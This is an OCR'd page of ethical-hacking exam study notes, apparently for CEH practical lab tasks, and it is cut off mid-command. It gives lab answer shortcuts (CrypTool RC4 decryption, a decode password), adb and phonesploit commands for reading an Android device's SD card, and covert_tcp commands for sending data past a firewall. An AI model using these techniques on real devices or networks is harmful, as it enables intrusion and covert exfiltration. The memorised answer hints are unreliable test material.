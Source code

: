 Mod-20 Page- 63 V.10
Mod - 20 Page- 69 V.11

18. The account number of a customer was stolen from a bank's database. The attacker encrypted the file using CrypTool. You are an ethical hacker working with the bank; the bank has retained the cipher file "Cry-RC4-Accountno.hex" in the Documents folder of the Ethical Hacker-1 machine and has asked you to decrypt the information hidden in the file. Determine the account number by decrypting the file.
Hint: Use "14" as key-value under the key length.
Note: Only provide the numeric values in the answer field.

Mod - 20 Page- 109 V.11

Mod-20 Page- 90 V.10
Mod - 20 Page- 100 V.11
Use CrypTool

20. An attacker with malicious intent has identified a vulnerability in a machine in a corporat network. He has encoded the IP address of the machine and left it in the database. While auditing the database, the encoded file was identified by the database admin. Decode the file present in the Ethical Hacker-1 machine and enter the IP address.
Path: C:\Users\Admin\Desktop\Encodeddata.txt Hint: Password to decode the file is magic1234

Mod-20 Page- 41 V.10
Mod - 20 Page- 36 V.11
BCTextEncoder.exe
Or
Cybechef


=================================
Extract the information from the SDcard of the Android User? 

Mod-17 Page- 29 V.11
adb connect ip:5555
adb devices -l
adb shell
cd SDcard then
cd Downloads,
cat flag etc

Python3 phonesploit.py
>3 >4>pwd>ls> cd SDcard> cd
Downloads> cat flag

=================================

Send data to another Machine (firewall blocked) ?

Mod-6 Page- 246 V.11 & Mod-6 Page- 185 V.11
Parrot Machine
Type cd Desktop and press Enter.
Type mkdir send and press Enter.
Type cd send/ and press Enter.
Type echo "Secret Message" > message.txt and press Enter
type cc -o covert_tcp covert_tcp.c and press Enter.
Ubuntu Machine
Type cd Desktop and press Enter.
Type mkdir receive and press Enter.
Type cd receive and press Enter.
Tcpdump -nvvx port 8888 -i lo
type smb://10.10.10.16 in the Server Address field and press Ent
type cc -o covert_tcp covert_tcp.c and press Enter.
To start a listener, type ./covert_tcp –dest 10.10.10.9 –source 10.10.10.11 –source_port 9999–dest_port
8888 –server –file /home/ubuntu/Desktop/receive/receive.txt and press Enter.
Parrot Machine
In the terminal window type ./covert_tcp –dest 10.10.10.9 –source 10.10.10.11 -source_port 8888 –